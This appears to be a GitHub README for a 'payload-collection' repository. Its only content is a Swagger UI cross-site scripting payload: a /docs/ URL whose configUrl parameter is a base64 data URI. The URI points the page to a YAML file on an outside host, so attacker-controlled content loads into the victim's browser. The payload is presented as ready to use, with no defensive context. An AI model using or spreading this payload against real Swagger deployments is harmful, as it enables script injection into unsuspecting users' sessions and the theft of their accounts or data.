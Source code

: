 # payload-collection
A payload collections
![image](https://user-images.githubusercontent.com/12164075/169923554-f0d382f5-8a13-4491-ad9c-f16e0017e089.png)

## xss

swagger xss payload

```
https://xxx.com/docs/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
```

